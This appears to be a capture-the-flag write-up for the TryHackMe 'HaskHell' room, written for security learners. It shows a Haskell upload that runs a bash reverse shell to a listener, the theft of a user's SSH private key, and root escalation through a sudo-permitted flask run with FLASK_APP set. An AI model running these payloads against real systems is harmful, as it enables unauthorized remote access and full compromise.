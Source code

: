 #TryHackMe HaskHell
**Teach your CS professor that his PhD isn't in security.**

## Task-1 HaskHell

* Starting nmap for enumeration gave us two ports -'22' and '5001'. Opening /ip:5001 in website gave us a university like page which says 'Welcome to functional programming 220!'. On that page we can can find links to other pages. We see an /upload section which is forbidden. So for directory enumeration I fired up gobuster using command *gobuster dir -u http://ip -w medium.txt* and got a page '/submit' which was allowing us to upload files. If you will read carefully on the previous pages it clearly states that you can upload only haskell files.

* After that I searched for haskell programming to run system commands and got one. The code is below : 
import System.Process
main = do
   callCommand "bash -c 'bash -i >& /dev/tcp/ip/8888 0>&1'"

* Save this code in a file with extension '.hs'. After this just open your nc using 'nc -lnvp 8888' and upload this file. Wait for some time and you will get your shell.

* After that go to 'home' directory and list users. You will see a 'prof' directory upon opening gave us a '.ssh' directory containing private key for prof. Also you will get a user.txt file which is answer to first question.

1. Get the flag in the user.txt file.<br>
Answer : flag{Academic_dis*******}

* Now while in .ssh directory type '*ssh -i id_rsa prof@localhost*' and you will be in prof shell. Now type 'sudo -l' for sudo permissions and we see a file named 'run' which prof can run. So type '*echo "import os" > script.py*' and then '*echo "os.system('/bin/bash')" >> script.py*'. I used echo and not any text editor as it was not working properly in that shell.

* Now 'sudo -l' also tells us to 'env_keep+=FLASK_APP'. Means append your file to FLASK_APP variable. This can be done using '*export FLASK_APP=script.py*'. Now type '*sudo /usr/bin/flask run*' and you will get your root shell. 

2. Obtain the flag in root.txt<br>
Answer : flag{im_purely_**********}
